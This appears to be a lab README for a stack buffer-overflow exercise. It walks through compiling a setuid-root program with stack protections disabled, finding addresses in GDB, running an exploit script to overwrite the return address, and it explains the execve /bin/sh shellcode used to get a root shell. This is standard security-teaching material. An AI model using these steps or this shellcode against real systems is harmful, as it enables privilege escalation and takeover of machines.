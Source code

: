 ### Step 2: Compile Vulnerable Program
```bash
# Compile with security features disabled
gcc -DBUF_SIZE=240 -o stack -z execstack -fno-stack-protector stack.c

# Set setuid root permissions
sudo chown root stack
sudo chmod 4755 stack

# Compile debug version for address discovery
gcc -z execstack -fno-stack-protector -g -o stack_dbg stack.c
```

### Step 3: Address Discovery with GDB
```bash
# Create initial badfile
touch badfile

# Launch GDB
gdb stack_dbg

# Set breakpoint and run
(gdb) b bof
(gdb) run

# Get memory addresses
(gdb) x &buffer    # Buffer address
(gdb) x $ebp       # Extended Base Pointer address
(gdb) quit
```

### Step 4: Configure Exploit
Edit `exploit.py` with discovered addresses:
```python
buff   = 0xbfffe950  # Replace with buffer address from GDB
ebp    = 0xbfffea48  # Replace with EBP address from GDB
```

### Step 5: Execute Attack
```bash
# Generate malicious payload
rm badfile
python3 exploit.py

# Execute vulnerable program
./stack
```

## Shellcode Analysis

The injected shellcode performs the following operations:
```assembly
xorl    %eax,%eax     # Clear EAX register
pushl   %eax          # Push null terminator
pushl   $0x68732f2f   # Push "//sh"
pushl   $0x6e69622f   # Push "/bin"
movl    %esp,%ebx     # Move stack pointer to EBX ("/bin//sh")
pushl   %eax          # Push null (argv[1])
pushl   %ebx          # Push program name (argv[0])
movl    %esp,%ecx     # Move stack pointer to ECX (argv)
cdq                   # Clear EDX (envp)
movb    $0x0b,%al     # System call number for execve
int     $0x80         # Execute system call
```